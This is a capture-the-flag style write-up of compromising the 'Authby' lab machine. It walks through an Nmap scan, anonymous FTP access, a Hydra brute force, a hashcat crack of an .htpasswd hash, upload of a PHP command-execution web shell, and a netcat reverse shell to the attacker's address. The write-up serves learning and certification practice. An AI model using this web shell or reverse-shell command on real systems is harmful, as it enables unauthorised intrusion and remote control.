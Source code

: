#### Enumeration

```
# Nmap 7.91 scan initiated Mon Nov  8 07:23:31 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/xml/_full_tcp_nmap.xml 192.168.80.46
Nmap scan report for 192.168.80.46
Host is up, received user-set (0.30s latency).
Scanned at 2021-11-08 07:23:32 EST for 709s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Nov 08 20:20 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Jul 26 21:51 accounts
242/tcp  open  http               syn-ack ttl 127 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 127 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2021-11-08T12:33:18+00:00
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-06-03T21:15:17
| Not valid after:  2021-12-03T21:15:17
| MD5:   bb3f f979 9fc1 9d02 baa7 d0a4 9ccb 0922
| SHA-1: d0a1 8a6a 8326 1123 85f2 59e3 71ea c66c f3a4 048f
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQGttsFTOC+IFFUDrl75tnVzANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVMSVZEQTAeFw0yMTA2MDMyMTE1MTdaFw0yMTEyMDMyMTE1MTda
| MBAxDjAMBgNVBAMTBUxJVkRBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAw5XIXz8iD9nH+yWmmm8qL9mhTX2ePktQVr8V+9pejC7+QnNWIBRiQgn1n24f
| LXtl9fWPICyoHMRlMzPYZXddHGgFU8ld7UwJs2q5/egKfKE25T0Qp6GN8KesIzkn
| un0mIJY7eEx+U+KbjH6Yh7607bGmy3Mjpa18WqwF+i2WWBF8bXDvuZPkcWP2YWBQ
| 01LoDtUFGJ0KeCFIHFe5eCsREFkYKkqLhvGCYPl3EYKVY3Av2VE8VUtf2HadzF1s
| LBlefoT3p26bKr4guGhXUk8EXSNfHZAMl9mGlGX11A4RpVx/gna4Lx/elUYnfLNP
| oSVwjm2I4M/cQyeWXK670acSTwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHGQtYLWjpu4Mebquf3u
| xfUqqlq+012JEgM2W2j/ny/ax71gMxKa2jr6bWWhfN8j2cNe0tEsJYmaHsiq12l9
| OnOiJ6pSq9HBSp8lycCZ6uyXmPfcYYMuurcAf0dvUjBVbNr7vt74DogaJUzM7HH+
| Do+r1PIODTQdPPiBS+Ygmx1tyStwnMIg47WHslB5L22t31xruDx83l2BzUftdbPB
| /xy1v6LqHhKR/1JPVVbad5dGBJT5nZqPSM2NS6OmiUyZlZbvkLQo8WOnHgq7fSHu
| ylD3NdGLQzpIV6R6tzkY/Gw8gWLH3pFCppgxL7nsnYltPYPDqhT7WHudKsS6CrYC
| 3Ws=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-11-08T12:33:24+00:00; -1m55s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=11/8%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=61891989%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW8ST11%O6=M54EST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54ENW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.021 days (since Mon Nov  8 07:04:30 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m55s, deviation: 0s, median: -1m55s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   304.14 ms 192.168.49.1
2   304.23 ms 192.168.80.46

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  8 07:35:21 2021 -- 1 IP address (1 host up) scanned in 711.76 seconds

```

We access ftp with anonymous account and the folder contains three zftp account files.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_12h14m33s_001_.png)

I create a text file named users.txt and add usernanmes ```admin``` and ```offsec``` to each line.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h38m52s_002_.png)

Brute force attack with Hydra to obtain credentials. (I learned not to use rockyou.txt in the first place. You can try smaller dictionary files first.)

```
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt -t 20 -s 21 -f 192.168.73.46 ftp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h42m07s_003_.png)

We log in to with admin account and download all the three files. The .htpasswd file stores username and password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h49m19s_004_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h05m44s_005_.png)

Use hashcat to crack the apache md5 hash code and we get the recovery password ```elite```

```
echo "$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0" > hash
hashcat -m 1600 hash -a 0 /usr/share/wordlists/rockyou.txt --force
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h10m18s_006_.png)

We use credential to pass HTTP authentication

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h21m10s_007_.png)

Now let's go back to the ftp directory, which looks like the root of the site.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h24m49s_008_.png)

We upload a php file that can execute system commands via system function. (Many php web sehlls do not work properly.) 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h30m51s_009_.png)

Upload the netcat execution file via ftp.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h35m33s_010_.png)

Execute the command ```nc.exe -e cmd.exe 192.168.49.73 80``` to get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m12s_011_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m30s_012_.png)

Check the privileges. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h40m27s_013_.png)

